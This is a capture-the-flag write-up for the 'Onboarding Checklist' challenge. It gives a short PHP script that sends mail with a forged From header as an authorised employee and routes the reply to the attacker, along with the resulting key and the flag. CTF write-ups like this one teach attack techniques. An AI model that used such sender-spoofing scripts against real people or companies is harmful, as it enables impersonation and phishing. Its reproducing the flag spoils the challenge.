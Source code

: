 # Onboarding Checklist

## Points
468

## Description
```
From: importantperson@somebigcorp.com
Date: Feb 22, 2019 9:00 AM
To: someguy@somebigcorp.com
Subject: New Employee Access

Hello Some Guy,

We need to begin sending requests for the new employee to get access to our security appliances. I believe they already know that you are authorized to make a new account request. Would you mind sending the new employee's email address to tamuctf@gmail.com so they can process the account request?

Thank you,
Important Person
```

The new employee can be a little slow to respond.

Difficulty: easy

2/26 8:42 am CST: Visting somebigcorp.com is not part of the challenge

## Solution
Let's send an e-mail pretending we are `Some Guy`.
```php
<?
$phisher = 'phisher@gmail.com';
$from    = 'someguy@somebigcorp.com';
$to      = 'tamuctf@gmail.com';
$subject = 'New Employee Access';
$message = $phisher;
$headers = 'From: ' . $from . "\r\n" .
    'Reply-To: ' . $phisher . "\r\n" .
    'Cc: ' . $phisher . "\r\n" .
    'X-Mailer: PHP/' . phpversion();

mail($to, $subject, $message, $headers);

echo "Sent";
?>
```
We will get a response
```
Hello new employee! Some Guy sent me your email. Here is your key
gigem{wuT_4n_31337_sp0ofer_494C4F5645594F55}
```

## Flag
`gigem{wuT_4n_31337_sp0ofer_494C4F5645594F55}`